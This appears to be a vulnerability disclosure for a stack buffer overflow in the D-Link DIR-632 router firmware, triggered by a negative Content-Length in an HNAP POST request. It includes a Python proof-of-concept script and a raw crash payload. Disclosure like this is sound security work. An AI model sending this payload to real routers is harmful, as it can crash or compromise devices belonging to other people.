




# Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `get_pure_content` at offset 00424E88, where the `safe_fread` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.


## 2. Vulnerability  Analysis
- This vulnerability occurs when the program parses the `Content` field of a user's POST request. The program only checks whether the `Content-Length` exceeds `1200` bytes, and if it does, it limits the read to `1200` bytes.

- However, if the `Content-Length` is crafted as a negative value, it will be interpreted as a large unsigned integer due to the third parameter of the safe_fread function being of type `unsigned int`. This causes an overflow during data reading, which can trigger a buffer overflow vulnerability.






# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /ywT /i1
SOAPACTION:hom/HNAP1
Content-Length: -3

WRwzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzy<wlan_wpa_group����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������key_rekey_time>%s</wlan_wpa_groupkey_rekey_time>wzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz�wzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz
SOAPACqION:HNAP1www.cam
```

# Vulnerability Verification Screenshot
##  dir-632


# Discoverer
m202472188@hust.edu.cn
